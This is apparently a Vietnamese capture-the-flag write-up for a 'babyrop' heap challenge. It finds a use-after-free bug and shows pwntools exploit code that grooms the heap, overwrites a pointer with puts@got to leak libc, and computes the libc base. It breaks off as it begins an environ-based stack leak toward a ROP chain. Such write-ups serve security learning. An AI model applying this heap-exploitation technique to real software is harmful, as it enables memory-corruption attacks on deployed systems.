

**Hint**
In many of these type of CTF challenges you usually end up creating 10 or so allocations, freeing them, then creating a larger one that can write to previously allocated memory with pointers we want to control that have existing pointers pointing to them.

**1. Tìm lỗi**

Đầu tiên dùng lệnh `file` để kiểm tra thông tin file thực thi:

```
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22e8dcbaa41a9ddd0d137d3f83de9d9eee392236, for GNU/Linux 3.2.0, not stripped
```

Là file ELF 64bit. Tiếp theo sử dụng lệnh 'checksec' để kiểm tra:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Chúng ta thấy Full RELRO nên không ghi đề lên GOT nào, NX bật, và stack không thực thi. Tiếp theo sẽ đi phân tích mã nguồn

```
struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(mprotect),
        ALLOW_SYSCALL(mmap),
        ALLOW_SYSCALL(munmap),
        ALLOW_SYSCALL(exit_group),
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        ALLOW_SYSCALL(close),
        ALLOW_SYSCALL(openat),
        ALLOW_SYSCALL(fstat),
        ALLOW_SYSCALL(brk),
        ALLOW_SYSCALL(newfstatat),
        ALLOW_SYSCALL(ioctl),
        ALLOW_SYSCALL(lseek),
        KILL_PROCESS,
    };
```

Mở đầu đã thấy giới hạn số hàm syscall mà mình có thể thực thi. Nhìn qua thì không thấy hàm để thực thi shell nhưng có hàm open, read và write để đọc và ghi file.

```
void free_safe_string(int i) {
    safe_string * ptr = data_storage[i];
    free(ptr->string);
    free(ptr);
}
```

Ở hàm trên free nhưng không xóa con trỏ nên có lỗi Use After Free

**2. Ý tưởng**

Sau khi đọc hint thì chúng ta tạo 10 chunk và free chúng. Sau đó tạo 1 chunk lớn hơn ta được như sau:

```
pwndbg> x/10xg &data_storage
0x404040 <data_storage>:        0x00000000015c9960      0x00000000015c9730
0x404050 <data_storage+16>:     0x00000000015c97a0      0x00000000015c9810
0x404060 <data_storage+32>:     0x00000000015c9880      0x00000000015c98f0
0x404070 <data_storage+48>:     0x00000000015c9960      0x00000000015c99d0
0x404080 <data_storage+64>:     0x00000000015c9a40      0x00000000015c9ab0
pwndbg> x/2xg 0x00000000015c9960
0x15c9960:      0x0000000000000420      0x00000000015c99d0
pwndbg> x/s 0x00000000015c99d0
0x15c99d0:      "0*8\352 \177"
```

Ta thấy được giá trị string của index 0 (data_storage[0][1]) sẽ được ghi vào index 7 (data_storage[7]) . Với điều đó chúng ta sẽ viết 1 chunk 0 bằng 6 chunk cũ và 'put@got' là địa chỉ của chunk7, sau đó đọc chunk 7 từ menu sẽ leak được địa chỉ libc.

Vậy có 2 việc cần làm:

- Leak địa chỉ libc

- Tạo ROP chain và lấy flag

**3. Khai thác**

Tạo 4 hàm để tiện sử dụng với 4 lựa chọn

```
def creat(index, size, data):
    r.sendlineafter(b"enter your command: ", b"C")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    r.sendlineafter(b"How long is your safe_string: ", '{}'.format(size).encode())
    r.sendafter(b"enter your string: ", data)

def free(index):
    r.sendlineafter(b"enter your command: ", b"F")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())

def read(index):
    r.sendlineafter(b"enter your command: ", b"R")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    return r.recvuntil(b"enter")

def write(index, data):
    r.sendlineafter(b"enter your command: ", b"W")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    r.sendafter(b"enter your string: ", data)
```

Tiếp theo là tạo 10 chunk rồi free chúng. Tiếp tục tạo nốt chunk lớn hơn bằng 6 chunk cũ

```
for i in range(10):
    creat(i, 0x40, '{}'.format(i).encode()*8)
for i in range(10):
    free(i)
creat(0, 0x420, b'0*8')
```

Tiếp theo sẽ viết địa chỉ của 'put@got' vào chunk 0 và đọc nó xem

```
write(0, flat(0x8, exe.got['puts']))
print(read(7))
```



Và như thế địa chỉ của puts đã được leak ra. Tiếp theo sẽ lưu nó vào biến puts_leak

```
puts_leak = read(7).split(b'\n')[1].decode().split(' ')[::-1][2:-1]
puts_leak = int(''.join([i for i in puts_leak]), 16)
```

Từ đó việc leak địa chỉ libc base đã trở nên dễ hơn

```
libc.address = puts_leak - libc.sym['puts']
```

Tiếp theo sẽ tính toán địa chỉ 'environ' để leak địa địa chỉ stack để sau đó saved rip hàm main bằng tính toán địa chỉ environ vừa leak ra với stack